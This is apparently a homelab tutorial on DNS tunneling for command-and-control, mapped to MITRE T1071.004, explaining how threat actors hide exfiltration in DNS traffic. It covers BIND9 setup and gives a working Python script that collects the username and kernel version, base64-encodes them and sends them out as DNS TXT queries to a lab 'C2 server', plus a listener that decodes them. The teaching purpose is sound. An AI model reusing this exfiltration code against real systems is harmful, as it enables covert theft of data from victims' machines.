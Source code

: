 ```yaml
---
title: DNS Tunneling
date: 2025-06-11
draft: false
author: Alex Jenkins
---
```

| Category      | ID        | Description       |
| ------------- | --------- | ----------------- |
| Tactic        | TA011     | Command and Control |
| Technique     | T1071     | Application Layer Protocol  |
| Sub-Technique | T1071.004 | Application Layer Protocol: DNS |
# Configuration
## Server
1. Setup Ubuntu server - I'm using 24.04.2

### Domain Name System
Follow this guide: https://documentation.ubuntu.com/server/how-to/networking/install-dns/index.html
- Install bind9, dnsutils

**Forward Lookup Zone**
First modify the /etc/bind/named.conf.local file to include your forward lookup zone file and domain. Mind looks like:
```
zone "homelab.local" {
  type master;
  file "/etc/bind/db.homelab.local";
};
```

Now copy an existing zone file as a template like so:
```
sudo cp /etc/bind/db.local /etc/bind/db.homelab.local
```

Then add some A records to the file:
```
;
; BIND data file for local loopback interface
;
$TTL    604800
@       IN      SOA     homelab.local. root.homelab.local. (
                              2         ; Serial
                         604800         ; Refresh
                          86400         ; Retry
                        2419200         ; Expire
                         604800 )       ; Negative Cache TTL
;
@       IN      NS      homelab.local.
@       IN      A       192.168.1.155      
```
!! Make sure you increment the serial number every time you make a change !!

Restart the server with:
```
sudo systemctl restart bind9
```

```
include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

logging {
        channel query.log {
                file "/var/log/named/query.log";
                severity debug 3;
        };
        category queries { query.log; };
};
```

```
sudo mkdir /var/log/named
sudo chown bind:bind /var/log/named
sudo systemctl restart bind9
sudo tail -f /var/log/named/query.log
```

Now test it on another machine with nslookup homelab.local and you should see some acitivity in the log file:
```
root@c2-server:/etc/bind# tail -f /var/log/named/query.log
client @0x77042c1ca578 192.168.1.182#36083 (homelab.local): query: homelab.local IN A + (192.168.1.155)
client @0x77042c1ca578 192.168.1.182#35547 (homelab.local): query: homelab.local IN AAAA + (192.168.1.155)
```

## Infected Machine
On infected machine modify /etc/resolv.conf to include:
```
nameserver 192.168.1.155 # Change this to the IP of your DNS server
```
This simulates real-world DNS connection. In doing this you can keep it isolated to your private network, allowing the infected machine to treat your server as its own DNS - enabling IP resolution. In real-world scenarios this wouldn't be required because the domain would be recognised by a public DNS provider.

# Red Team
``` python
def base64_encode(data):
    # base64 encoding requires input data as bytes
    if not isinstance(data, bytes):
       data = data.encode("utf-8")
    data = base64.b64encode(data)
    return data.decode("utf-8").strip()

def run_command(commands):
    # process commands and return stdout as bytes
    return subprocess.run(commands, capture_output=True).stdout

# Reconnaissance
import subprocess
raw_username = run_command("whoami")
raw_system_info = run_command(["uname", "-r"])

# Encoding
import base64
encoded_username = base64_encode(raw_username)
encoded_system_info = base64_encode(raw_system_info)

# Exfiltration
import dns.resolver
domain = ".homelab.local"
encoded_message = f"{encoded_username}.{encoded_system_info}" + domain
try:
    dns.resolver.resolve(encoded_message, 'TXT')
except Exception as e:
    pass
```

When running the script you should get output like below:
```
client @0x77042c1ca578 192.168.1.182#55499 (YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local): query: YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local IN TXT +E(0) (192.168.1.155)
```

Now that we've confirmed that works it's time to make a python script on the server to strip out the query and decode it.
``` python
import re
import time
import base64

dns_log_file = "/var/log/named/query.log"

with open(dns_log_file, "r") as file:
    file.seek(0,2) # move to end of file
    while True:
        message = []
        line = file.readline()
        if line:
            line = line.strip()
            match = re.search(r'query: ([^\s]+)', line)
            if match:
                query = match.group(1)
                split_query = query.split('.')
                for section in split_query:
                    if section == "homelab" or section == "local":
                        pass
                    else:
                        decoded_section = base64.b64decode(section).decode("utf-8").strip()
                        message.append(decoded_section)
        if message:
            print(" ".join(message))
        time.sleep(1)
```

The program above is designed to listen to the DNS log file for any updates, refreshing every second. I've named it dns_listener.py. You should notice that this is a very basic example and isn't very fault-tolerant. It will quickly strip out the query within the DNS record, split that query into sections by periods, and decode those sections if they don't match one of two keywords; homelab and local. Make sure to adapt those keywords to fit your setup if you're following along or you will have errors.

The malware on the infected machine will gather user and system information relevant to your setup. That said, if all steps were followed correctly, the listener should have successfully decoded the DNS query and will output the infected machine's details. Example output from my machine:
```
alex@c2-server:~$ python3 dns_listener.py 
alex 6.14.10-arch1-1
```

With that you've had a basic example of how a threat actor might exfiltrate data via the DNS protocol. The example I've given is the first step of communication, where the server has now received information which it can use to identify the infected machine. In future communications the infected machine could prefix messages with this information so that the C2 server may recognise the source of the data.
